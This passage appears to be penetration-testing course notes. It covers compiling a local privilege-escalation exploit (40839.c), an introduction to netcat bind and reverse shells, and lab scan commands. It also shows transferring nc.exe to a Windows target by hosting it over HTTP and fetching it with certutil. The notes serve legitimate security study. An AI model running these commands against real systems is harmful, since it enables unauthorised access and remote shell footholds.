 - Compile the `C` exploit
  - check for comments in the code regarding the compilation commands to compile it successfully

```bash
# Compile with
gcc -pthread 40839.c -o dirty_exploit -lcrypt
```

![gcc -pthread 40839.c -o dirty -lcrypt](.gitbook/assets/image-20230423154323487.png)

## Bind & Reverse [Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells)

### [Netcat](../penetration-testing-prerequisites/web-applications.md#netcat)

**`nc`** - a network utility used for a variety of tasks associated with TCP/UDP.

- **Client mode** - used for connection to any TCP/UDP port or to a listener
- **Server Mode** - used as a listener for connection from clients on a specific port

Functionalities:

- open TCP connections, listen on TCP or UDP ports
- Banner grabbing, Port scanning, Files transferring
- Bind/Reverse shells
- 📌 [Hacking with Netcat](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/)

```bash
# Debian based distro - install
sudo apt update && sudo apt install -y netcat
```

> 🔬 Some HFS Lab commands

```bash
nc <TARGET_IP> <TARGET_PORT>
nc -nv 10.2.23.227 80
# -n = no DNS resolution
# -v = verbose

nc -nvu 10.2.23.227 445
# -u = UDP port
```

Setup a listener:

- Transfer `nc.exe` to the windows target

```bash
# Attacker machine
ip -br -c a
	10.10.24.4/24
cd /usr/share/windows-binaries/
python -m SimpleHTTPServer 80


# Target machine
cd Desktop
certutil -urlcache -f http://10.10.24.4/nc.exe nc.exe
```
